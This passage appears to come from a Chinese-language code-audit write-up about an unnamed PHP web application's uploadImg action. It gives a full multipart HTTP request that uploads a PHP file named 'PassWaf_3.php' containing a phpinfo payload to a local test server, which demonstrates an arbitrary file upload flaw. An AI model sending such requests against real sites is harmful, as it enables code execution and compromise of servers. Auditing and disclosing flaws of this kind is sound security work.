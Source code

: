[![](assets/1710900899-e1ec5c8487bd9d143db8a55d3c90fcab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301141545-237e402c-d793-1.png)

审计 /webapp/modules/extension/actions/uploadImgAction.class.php

[![](assets/1710900899-0e811ee62af4d31b220fadf2b0853f43.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240303141551-7c46ed92-d925-1.png)

构造请求包

```plain
POST /index.php?module=extension&action=uploadImg HTTP/1.1
Host: 127.0.0.1:8080
Accept: */*
Accept-Encoding: identity
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=--------------------------371918364269932091066326
Cookie: admin_mojavi=idaa1su8mvj9leoubg27osau0r; XDEBUG_SESSION=PHPSTORM
User-Agent: PostmanRuntime-ApipostRuntime/1.1.0
Content-Length: 230

----------------------------371918364269932091066326
Content-Disposition: form-data; name="file"; filename="PassWaf_3.php"
Content-Type: image/php

<?php @phpinfo(); ?>
----------------------------371918364269932091066326--
```
